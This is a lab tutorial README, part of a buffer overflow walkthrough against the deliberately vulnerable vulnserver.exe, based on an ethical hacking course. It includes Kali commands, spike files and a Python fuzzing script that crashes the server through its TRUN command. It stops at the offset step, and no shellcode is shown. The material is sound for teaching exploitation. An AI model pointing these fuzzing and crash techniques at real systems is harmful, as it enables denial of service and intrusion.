 # A simple walkthrough for a windows vulnerable server (vulnserver.exe)

This tutorial is based on the "Practical Ethical Hacking - The Complete Course", a Udemy course made by Mr. Heath Adams (The Cyber Mentor)

# Requirements
- Download and install: Kali (for attacker machine) and windows 10 (victim's machine)
- Immunity Debugger: https://www.immunityinc.com/products/debugger/
- Vulnserver: http://www.thegreycorner.com/p/vulnserver.html

# Things to remember:
1. Make sure you disable the Windows Defender in Windows VM.
2. Allow files and printer sharing in your firewall (make sure you can ping windows VM from your Kali VM).
3. Always run Immunity Debugger (IMD) and Vulnserver.exe as Administrator.
4. Close and re-run Immunity Debugger and Vulnserver.exe after an attack from Kali machine to prevent issues.

# Steps to conduct bufferoverflow
1. Spiking 
2. Fuzzing  
3. Find the Offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Finding Right Modules (MSF)
7. Generating shellcode (MSF)
8. Root!

## I. Spiking
1. On windows, open vulnserver.exe (always run as administrator)
2. On Kali VM, try to test if Kali can connect to Windows via netcat. Usuallly, vulnserver runs on port 9999.
```
$ nc -nv 192.168.17.134 9999
```
This will be the result if you type **HELP**

	![HELP_cmd](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/HELP_command.png)

>We can use these command to test if the target is vulnerable to bufferoverflow. 
>We will try use STATS but **spoiler alert, TRUN is the correct payload for this exercise.

3. We will create files with payload and try if the target machine is vulnerable to bufferoverflow. Create a filed called '[stats.spk](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/stats.spk)' and ‘[trun.spk](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/trun.spk)’

>stats.spk

````spk
s_readline();
s_string("STATS ");
s_string_variable("0");
````
>trun.spk

```
s_readline();
s_string("TRUN ");
s_string_variable("0");
```
4. Open **IMD** as administrator, click File > Attach > select vulnserver > click Attach > click the run icon ![IMD_run_icon](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/IMD_run_icon.png)

	![file_attach_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/file_attach.png)

	![vulnserver_attach_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/vulnserver_attach.png)

It will look something like this

	![imd_vulnserver_attached_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/imd_vulnserver_attached.png)

>In the lower right you can see the status **Paused** ![paused_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/paused.png) \
>Click the run button on the menu ![IMD_run_icon](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/IMD_run_icon.png) to change the status to **Running** ![running_status](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/running.png) 

5. On Kali, run **generic_send_tcp** <target_ip> <port> <payload_file.spk> 0 0.

```
$ generic_send_tcp 192.168.17.134 9999 stats.spk 0 0
```

	![fuzzing_output_img](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/fuzzing_output.png) 

>**IMPORTANT NOTE!** Always close and re-run the IMD and vulnserver.exe as administrator before doing new attack test.

6. Check the **IMD**, **STATS** command will not make the target crash so we will try the **TRUN** command.

```
$ generic_send_tcp 192.168.17.134 9999 trun.spk 0 0
```

>Check the **IMD** again and it should look like this. We can see bunch of **A**s and hex **41414141** \
>**41** means hex of letter **A**. Four bytes of **41** is equal to hex **41414141** \
>Our payload using **TRUN** command is successful and made the vulnserver crashed!!! Now we confirmed that the server is vulnerable to bufferoverflow!

![spiking_srcshot](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/spiking_srcshot.png) 

>**Q: How and why the system crashed?** \
>A: By sending bunch of As, to the stack buffer. The stack buffer (EAX register) over flows and we successfully allocated As to the Base Pointer (EBP) and Instruction Pointer (EIP). We can see that EBP and EIP values are all 41414141


>**Q: What is EIP and why it is very important to understand?** \
>A: The Instruction Pointer (IP) is where the actual command executes!! So, if we can overwrite this, we can send malicious code and gain reverse shell.

## II. Fuzzing

1. We will automate the sending of bunch of As using python script. Make a python2 script ‘fuzz.py’ and copy paste this script.

>fuzz.py

````python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = 'A' * 100 

while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.17.134', 9999))

		s.send(('TRUN /.:/' + buffer))
		s.close()
		sleep(1) 
		buffer = buffer + 'A' * 100
		
	except:
		print "Fuzzing crashed at %s bytes" % str(len(buffer)) 
		sys.exit()

````

> Dont forget to change its permission to executable. 

```
$ chmod +x fuzz.py
```

>**Q: What does this code do?** \
>A: The script sends 100 As to the vulnserver then it adds another 100 As, so the buffers grows every iteration until it crash.

2. Close and re-run the **IMD** and **vulnserver.exe**. Re-attach vulnserver to IMD then hit the Run button. Makse sure the status is '**Runing**'.

3. Run the python2 script:

```
$ ./fuzz.py
```

4. Observe the **IMD** and wait for it to crash then immediately terminate the fuzz.py script by pressing **CTRL + C**. \
   We can see in the **IMD* that the vulserver crash by checking its status to **Paused** and also we see again the bunch of As in the **Registers** section.

   ![fuzzing_crashed](https://github.com/slythx/bufferoverflow/blob/master/vulnserver/img/fuzzing_crashed.png)

5. We see that the vulnserver crashed at around 2200 bytes. So the Offset must be less than 2200 bytes. \
   If you CTRL + C and your result is not 2200 bytes, that's okay because the Offset must be less than what you get in the result.

## III. Finding the Offset
















































